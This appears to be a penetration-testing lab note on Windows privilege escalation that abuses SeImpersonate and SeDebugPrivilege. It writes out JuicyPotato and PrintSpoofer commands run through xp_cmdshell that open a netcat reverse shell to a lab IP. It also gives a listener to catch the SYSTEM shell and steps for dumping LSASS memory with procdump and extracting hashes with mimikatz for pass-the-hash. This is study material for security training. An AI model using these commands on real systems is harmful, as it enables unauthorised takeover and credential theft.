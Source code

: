 We will then check `whoami /priv` to see that we have *SeImpersonate*. We will then use  [JuicyPotato](https://github.com/ohpe/juicy-potato) to escalate privs. 

We need to upload juicypotato and nc 
`./nc.exe`
	`-l COM listening port`
	`-p program`
	`-a argument passed to program`
	`-t createprocess call`

Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.
```shell-session
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

#### Catching SYSTEM shell
```shell-session
sudo nc -lnvp 8443
```

### PrintSpoofer and RoguePotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.
```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

```shell-session
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.17 8443 -e cmd.exe" -t *
```

## SeDebugPrivilege
To run a particular service or assist in troubleshooting a user may be assigned *SeDebugPrivilege* instead of being added to the administrators group. Can be assigned  in domain policy under `Computer Settings > Windows Settings > Security Settings`.
Can be used to capture sensitive information in memory and modify kernel and application structures

If we find an account we can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good choice is Local Security Authority Subsystem Service (*LSASS*) which stores user credentials.

```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

If successful we can use mimikatz `sekurlsa::minidump` command. we can the use `sekurlsa::logonPasswords` to gain the hash. We can then use this as a pass the hash. 
